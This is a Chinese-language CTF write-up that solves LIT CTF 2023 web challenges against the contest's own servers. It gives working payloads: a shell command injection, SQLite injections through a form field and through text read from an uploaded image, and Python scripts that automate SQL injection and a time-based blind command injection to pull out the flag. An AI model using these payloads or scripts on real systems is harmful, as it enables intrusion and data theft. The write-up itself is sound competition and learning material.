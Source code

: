 # Lexington Informatics Tournament CTF 2023

- [LIT - Challenges (lhsmathcs.org)](https://lit.lhsmathcs.org/ctfchal)
- [官方 discord](https://discord.com/channels/738848412912451695/738849469113696267)

## WEB

### My boss left

**题目描述**

My boss left... Guess I can be a bit more loose on checking people.
http://litctf.org:31784/

#### 题目分析

签到题目，源码中已给出了密码，直接登录就可以拿到 flag。具体 wp 可参看同名文件夹。



### unsecure

**题目描述**

As it turns out, the admin who runs our website is quite insecure. They use password123 as their password.
(Wrap the flag in LITCTF{})
http://litctf.org:31776/

#### 题目分析

感觉像是一个暴力破解用户名的题目，先试一下再说。从这位[大哥](https://github.com/shadowabi/S-BlastingDictionary/blob/main/username.txt)处拿到用户名字典。之后用 burp 的 intruder 模块来做就可以。

发现是 admin，之前我试过的，但是复制密码的时候出错了...

一路跳转，最后发现有一个类似于 flag 的路径，提交然后成功了，属实没想到。。

![image-20230821102635042](../../_static/images/image-20230821102635042.png)





### Ping Pong

**题目描述**

I made this cool website where you can ping other websites!

#### 题目分析

一个简单的命令注入，表单提交 hostname 就好。

```bash
; cat ./flag.txt
```

### amogsus-api

**题目描述**

I'm working on this new api for the awesome game amogsus
You can try it out here:http://litctf.org:31783/

There seems to be a vulnerability I missed though...

#### 题目分析

一个 sqlite3 注入的题目，在 /account/update 路由处没有进行参数的过滤，所以可以通过 sql 注入将 sus 改为 true，然后再去访问 /flag 就可以获得 flag了。记得先注册一下！

```
K8ZH302X2NC3YDX6UIE571EG1QPU8RNP5MBBM0UZ
```

```
test1", sus=1#
```

token 的时效太短了，可能必须要用脚本来做。还要注意要在 password 注入，因为后面访问 /flag 时要用到 username。

```python
import requests
import json

def main():
    url = "http://litctf.org:31783/"

    data = {
        "username" : "test1",
        "password" : "test1"
    }
    r = requests.post(url=url+"login", data=data)
    auth = json.loads(r.text)["token"]
    print(auth)
    
    print("更新账户")
    data = {
        "username" : "test1",
        "password" : "test1\",sus=1--"
    }
    headers = {
        "Authorization" : auth
    }
    r = requests.post(url=url+"account/update",data=data,headers=headers)
    print(r.text)
    print("获得flag")
    
    r = requests.get(url+"flag", headers=headers)
    print(r.text)


if __name__ == "__main__":
    main()

```



### license-inject

**题目描述**

i did a thing

#### 题目分析

源码很长，是一个 TypeScirpt 的。然后做的事情是用 OCR 扫描图片提取文本，之后有一个 sqlite 的数据库操作。

源码还看不太懂，跟着 gpt 慢慢来。大概看懂了，flag 在数据库的某个表里面，代码有执行一个查询操作，不过是根据车牌号来查的，flag 就是这个车牌的金额。

打开题目是让我传一个仅包含文本的车牌图片，然后它会识别车牌，告诉我这个车牌对应的一些信息。糟糕的点是 flag 的车牌号是随机生成的，看上去没办法直接获得 flag。难道说代码的随机数生成是有问题的吗？或许这是一个值得思考的点。

emmm，我没有注意到 select 的时候没有对参数进行过滤，所以这实际上是一个简单的 sqlite 注入。

```
`SELECT * FROM plates WHERE plate = "${text}"`
```

text 变量就是上传的图片含有的文字，在这里我们让 text 为 None" OR name="codetiger 就好，那这样实际上的 sqlite 语句就变为：

```sqlite
SELECT * FROM plates WHERE plate = "None" OR name="codetiger"
```

![image-20230822141916846](../../_static/images/image-20230822141916846.png)

但是我比较奇怪的是，数据库中有 name=codetiger 的表项吗？后面看源码发现这个 codetiger 是 flag 对应的 name。

![image-20230822142019191](../../_static/images/image-20230822142019191.png)

### Ping Pong: Under Maintenance

**题目描述**

The website seems to be under maintenance.

#### 题目分析

依旧是无过滤的命令注入，但是这一次没有回显了。我想用带外的，但是题目说被禁掉了。

我尝试将 flag 重定向到别处，但是无法访问...

只剩下最后一种方法，那就是延迟注入，类似于 sql 盲注。

```
-h||if [ $(grep -r -h 'LITCTF{a') ]; then sleep 5; fi
```

利用 grep 命令递归地寻找 flag 字符串，-h 不打印文件路径和文件名。

```python
import time
import requests

charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_'

URL = "http://34.130.180.82:59378/"
flag = "LITCTF{"

while True:
    for c in charset:
        payload = f"-h || if [ $(grep -r -h '{flag+c}') ]; then sleep 1.5; fi"
        
        t = time.time()
        response = requests.post(URL, data={'hostname': payload})
        
        if time.time() - t > 1:
            flag += c
            print(flag)
            break
    
    if flag.endswith('}'):
        print(f"Flag recovered: {flag}")
        break
```

### fetch

**题目描述**

fetch me the flag at http://litctf.org:31770/

#### 题目分析



## 引用

[LIT CTF 2023 | Nolliv22](https://nolliv22.com/categories/lit-ctf-2023/)

